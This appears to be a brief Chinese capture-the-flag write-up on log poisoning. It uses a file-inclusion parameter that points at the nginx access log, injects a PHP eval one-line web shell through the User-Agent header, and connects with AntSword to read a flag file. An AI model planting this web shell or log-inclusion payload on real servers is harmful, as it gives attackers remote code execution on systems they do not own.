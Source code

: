 #日志注入
```
?url=/var/log/nginx/access.log
```
![[Pasted image 20230117105454.png]]
日志中包含HTTP请求行,Referer,User-Agent等HTTP请求的信息
burpsuite抓包，User-Agent中插入一句话木马`<?php @eval($_POST['ant']);?>`
使用antsword连接
![[Pasted image 20230117112832.png]]
发现flag.txt，内含flag

